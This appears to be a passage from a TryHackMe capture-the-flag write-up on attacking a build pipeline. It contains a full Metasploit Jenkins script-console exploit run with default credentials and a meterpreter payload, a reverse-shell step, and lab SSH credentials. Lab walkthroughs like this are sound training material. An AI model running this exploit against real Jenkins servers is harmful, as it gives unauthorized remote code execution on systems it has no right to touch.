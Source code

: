 ```shell

Once you have performed the steps, please enter Y to verify your access.
If you wish to fully exit verification and try again please, please enter X.
If you wish to remove this verification attempt, please enter Z
Ready to verify? [Y/X/Z]:
```
* Execute the steps in **JAgent** using the reverse shell:
```shell
echo xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx > /flag/myuser.txt
```
* Back to **mother** proceed with the verification:
```shell
Ready to verify? [Y/X/Z]: Y

Congratulations! You have received the flag for: Build Process Compromise

Your flag value is: THM{xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx}
```

## Task 7: Securing the Build Server

**Authenticate to Mother and follow the process to claim Flag 2. What is Flag 2?**

* Run the exploit using **Metasploit**:
```shell
msfconsole

use exploit/multi/http/jenkins_script_console
set target 1
set payload linux/x64/meterpreter/bind_tcp
set password jenkins
set username jenkins
set RHOST jenkins.tryhackme.loc
set targeturi /
set rport 8080
run

[*] Checking access to the script console
[*] Logging in...
[*] Using CSRF token: 'xxxx' (Jenkins-Crumb style v2)
[*] x.x.x.x:8080 - Sending Linux stager...
[*] Command Stager progress - 100.00% done (751/751 bytes)
[*] Started bind TCP handler against x.x.x.x:4444
[*] Sending stage (3045380 bytes) to x.x.x.x
[*] Meterpreter session 1 opened (x.x.x.x:41949 -> x.x.x.x:4444) at 2025-05-03 19:44:11 +0100

meterpreter > getuid
Server username: jenkins
```
* Submit proof of compromise to **mother** from the AttackBox:
```shell
ssh mother@10.200.6.250
(password is `motherknowsbest`)

Please select an option
[1] Submit proof of compromise
[2] Verify past compromises
[3] Exit
Selection:1
Please select which flag you would like to submit proof for:
[1]	Build Process Compromise
[2]	Build Server Compromise
[3]	Build Pipeline Compromise
[4]	DEV Environment Compromise
[5]	PROD Environment Compromise
```